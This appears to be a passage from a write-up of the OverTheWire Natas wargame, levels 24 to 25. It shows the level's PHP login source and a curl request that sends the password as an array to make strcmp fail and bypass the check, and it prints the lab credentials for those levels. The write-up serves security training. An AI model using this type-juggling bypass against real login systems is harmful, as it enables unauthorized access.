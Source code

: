 ...
Password:
<form name="input" method="get">
    <input type="text" name="passwd" size=20>
    <input type="submit" value="Login">
</form>

  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

index-source.html:
```
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

I can't bruteforce the password that is ~x^32, and I can't guess the password either, so I need to make the strcmp to fail.

If it fails, I get NULL and !NULL will be true.

Everything in the GET request is in a string form, but I can change the type of passwd to be an array:
```
abs@MacBookPro OverTheWire % curl "http://natas24.natas.labs.overthewire.org//index.php?debug=1" -u natas24:MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd -s -d "passwd[]=comeonn & submit=" -i
...
<br />
<b>Warning</b>:  strcmp() expects parameter 1 to be string, array given in <b>/var/www/natas/natas24/index.php</b> on line <b>23</b><br />
<br>The credentials for the next level are:<br><pre>Username: natas25 Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws</pre>  
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```


# Level 24 -> 25:
```
abs@MacBookPro OverTheWire % curl "http://natas25.natas.labs.overthewire.org//index.php" -u natas25:ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws -s                                     
...
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>en</option><option>de</option></select>
</form>
</div>

